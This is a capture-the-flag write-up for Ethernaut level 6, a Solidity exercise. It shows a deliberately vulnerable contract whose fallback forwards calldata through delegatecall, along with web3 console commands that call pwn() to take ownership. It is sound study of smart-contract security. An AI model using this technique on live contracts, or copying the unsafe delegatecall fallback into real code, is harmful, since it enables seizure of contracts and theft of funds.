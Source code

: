 # Level 6: Delegation

This is the level 6 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- [delegatecall](https://eip2535diamonds.substack.com/p/understanding-delegatecall-and-how) in Solidity

## Hack

Given contracts:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

`player` has to claim ownership of provided instance of `Delegation` contract.

A simple one if you clearly understand how `delegatecall` works, which is being used in `fallback` method of `Delegation`.

We just have to send function signature of `pwn` method of `Delegate` as `msg.data` to `fallback` so that _code_ of `Delegate` is executed in the context of `Delegation`. That changes the ownership of `Delegation`.

So, first get encoded function signature of `pwn`, in console:

```javascript
signature = web3.eth.abi.encodeFunctionSignature("pwn()")
```

Then we send a transaction with `signature` as data, so that `fallback` gets called:

```javascript
await contract.sendTransaction({ from: player, data: signature })
```

After transaction is successfully mined `player` is the `owner` of `Delegation`. Verify by:

```javascript
await contract.owner() === player

// Output: true
```

That's it.

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
